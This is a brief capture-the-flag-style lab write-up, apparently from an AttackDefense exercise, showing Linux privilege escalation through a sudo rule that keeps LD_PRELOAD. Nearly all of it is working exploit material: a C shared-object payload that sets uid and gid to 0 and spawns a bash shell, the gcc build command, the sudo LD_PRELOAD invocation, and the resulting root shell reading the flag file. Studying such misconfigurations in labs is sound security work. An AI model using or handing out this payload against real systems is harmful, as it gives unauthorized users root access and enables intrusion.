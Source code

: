 ## privesc abusing Sudo (LD_PRELOAD)

    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>

> #include <sys/types.h>

> #include <stdlib.h> 

> void _init() { 

> unsetenv("LD_PRELOAD"); 

> setgid(0); 

> setuid(0); 

> system("/bin/bash"); 

> }

then compile the file and generate the object file

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    
    root@attackdefense:/tmp# yeayy


